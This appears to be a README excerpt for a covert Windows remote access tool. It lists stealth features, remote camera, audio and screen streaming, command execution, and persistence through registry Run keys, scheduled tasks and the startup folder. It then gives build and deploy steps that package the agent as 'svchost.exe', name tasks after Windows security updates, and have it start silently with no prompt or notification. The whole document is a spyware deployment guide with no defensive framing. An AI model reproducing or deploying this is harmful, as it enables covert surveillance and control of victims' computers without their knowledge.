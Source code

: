 ### Stealth:
- ✅ All notifications disabled
- ✅ No popups or alerts
- ✅ Hidden from casual observation
- ✅ Stealth delays built-in

### Control:
- ✅ Web-based controller UI
- ✅ Command terminal with output
- ✅ Screen streaming
- ✅ Camera streaming
- ✅ Audio streaming
- ✅ File operations
- ✅ Process management

### Persistence:
- ✅ Registry Run key
- ✅ Scheduled tasks
- ✅ Startup folder
- ✅ Multiple fallback methods

---

## Build & Deploy

### 1. Install Dependencies:
```powershell
pip install -r requirements-client.txt pyinstaller
```

### 2. Clean Up Old Entries:
```powershell
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "svchost32" /f
schtasks /delete /tn "WindowsSecurityUpdate" /f
schtasks /delete /tn "WindowsSecurityUpdateTask" /f
```

### 3. Build Executable:
```powershell
pyinstaller svchost.spec --clean --noconfirm
```

### 4. First Run:
```powershell
# Right-click dist\svchost.exe → "Run as administrator" (once)
```

### 5. Restart Computer:
- Agent starts automatically
- No UAC prompt
- No console window
- No notifications

---